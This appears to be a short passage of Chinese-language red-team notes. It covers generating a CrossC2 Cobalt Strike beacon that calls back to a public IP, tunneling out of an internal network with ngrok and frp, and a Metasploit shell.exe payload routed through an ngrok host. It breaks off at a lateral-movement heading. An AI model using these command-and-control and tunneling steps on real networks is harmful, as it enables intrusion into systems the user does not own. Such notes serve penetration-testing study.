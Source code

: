 [![ppzwmwt.png](https://s1.ax1x.com/2023/04/14/ppzwmwt.png)](https://imgse.com/i/ppzwmwt)

生成了t_cc2.out，放在kali上执行

~~~
./t_cc2.out
~~~



~~~
./genCrossC2.Linux 129.226.92.29 5555 null null Linux x64 test
~~~





#### 内网穿透

~~~
ngrok，frp，spp，ew，nps
~~~





~~~
内网msf		192.168.1.101
内网被控机 * 1		192.168.0.121 
公网ngrok :   tcp://batmanfuture.free.com 12345		设置转发内部127.0.0.1和cs监听端口5555

内网msf生成payload： batmanfuture.free.com 12345   shell.exe,运行sunny.exe


~~~

##### Frp

https://github.com/fatedier/frp/releases

安装ftp：https://blog.csdn.net/qq_43557686/article/details/126028541

~~~
//查看服务器linux的架构
arch
x86_64 -> X86架构
https://github.com/fatedier/frp/releases/download/v0.48.0/frp_0.48.0_linux_amd64.tar.gz
aarch64 -> ARM架构
https://github.com/fatedier/frp/releases/download/v0.48.0/frp_0.48.0_linux_arm64.tar.gz
服务端
./frps -c ./frps.ini
客户端
frpc.exe -c frpc.ini
~~~





### 横向移动
